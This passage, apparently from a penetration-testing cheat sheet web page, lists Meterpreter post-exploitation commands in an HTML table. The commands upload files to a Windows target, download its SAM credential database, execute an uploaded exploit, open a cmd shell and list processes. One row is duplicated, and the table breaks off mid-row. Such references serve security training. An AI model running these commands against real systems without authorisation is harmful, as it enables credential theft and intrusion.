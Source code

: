   </tbody>
</table>
</div>

## Meterpreter Cheat Sheet

Useful meterpreter commands.

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Command</th>
      <th>Description</th>
    </tr>
  </thead>
  <tbody>

    <tr>
      <td>
        <p><code>upload file c:\\windows</code></p>
      </td>
      <td>
            <p>Meterpreter upload file to Windows target</p>
      </td>
    </tr>
    <tr>
      <td>
        <p><code>download c:\\windows\\repair\\sam /tmp</code></p>
      </td>
      <td>
            <p>Meterpreter download file from Windows target</p>
      </td>
    </tr>
    <tr>
      <td>
        <p><code>download c:\\windows\\repair\\sam /tmp</code></p>
      </td>
      <td>
            <p>Meterpreter download file from Windows target</p>
      </td>
    </tr>
    <tr>
      <td>
        <p><code>execute -f c:\\windows\temp\exploit.exe</code></p>
      </td>
      <td>
            <p>Meterpreter run .exe on target - handy for executing uploaded exploits</p>
      </td>
    </tr>
    <tr>
      <td>
        <p><code>execute -f cmd -c </code></p>
      </td>
      <td>
            <p>Creates new channel with cmd shell</p>
      </td>
    </tr>
    <tr>
      <td>
        <p><code>ps</code></p>
      </td>
      <td>
	    <p>Meterpreter show processes</p>